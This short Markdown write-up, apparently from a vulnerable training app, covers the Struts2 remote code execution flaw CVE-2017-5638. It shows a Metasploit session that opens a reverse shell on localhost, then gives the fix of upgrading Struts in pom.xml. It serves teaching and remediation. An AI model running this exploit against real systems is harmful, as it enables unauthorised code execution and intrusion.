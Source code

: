 # Using Components with Known Vulnerability

The version of struts2 used in the application is vulnerable to a remote code execution vulnerability CVE-2017-5638. This vulnerability can be exploited to execute arbitrary code on the system hosting the application.

```
msf exploit(struts2_content_type_ognl) > exploit

[*] Started reverse TCP handler on 127.0.0.1:4444
[*] Command shell session 1 opened (127.0.0.1:4444 -> 127.0.0.1:57204) at 2017-08-09 14:01:53 +0530

id
uid=501(user) gid=20(staff) groups=20(staff)
```

## Solution

The issue exists due to a vulnerable version of Struts2 being used in the application. The advisory suggests that this vulnerability is fixed in Struts version 2.3.32 and 2.5.10.1 onwards. The version of struts2 can be updated in the application by changing in _pom.xml_ file:

```xml
<properties>
        <struts2.version>2.3.32</struts2.version>
        [...]
</properties>
```

## Reference

* [https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-5638](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-5638)



